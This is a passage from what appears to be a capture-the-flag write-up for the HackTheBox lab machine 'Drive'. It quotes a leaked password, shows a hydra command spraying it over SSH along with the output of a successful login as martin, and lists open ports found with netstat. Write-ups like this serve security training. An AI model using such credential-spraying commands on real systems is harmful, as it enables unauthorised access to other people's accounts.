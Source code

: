 ```
hey team after the great success of the platform we need now to continue the work.  
on the new features for ours platform.  
I have created a user for martin on the server to make the workflow easier for you please use the password "Xk4@KjyrYv8t194L!".  
please make the necessary changes to the code before the end of the month  
I will reach you soon with the token to apply your changes on the repo  
thanks!
```

From these messages, we can gather a password `Xk4@KjyrYv8t194L!` for user Martin. Additionally to note for the future, there are backups stored in `/var/www/backups/` that are protected with a very "secure" password.
## Foothold
### Utilizing password shared in private messages
Using hydra to spray name variants, we find that we can indeed ssh as martin:
```
┌──(kali㉿kali)-[~/Documents/Drive]
└─$ hydra -L users.txt -p 'Xk4@KjyrYv8t194L!' ssh://drive.htb
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in 
<...SNIP...>
[DATA] attacking ssh://drive.htb:22/
[22][ssh] host: drive.htb   login: martin   password: Xk4@KjyrYv8t194L!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-15 12:27:08
```
## Lateral Movement
Enumerating open ports, we can see port 3000:
```
martin@drive:~$ netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      -                   
```
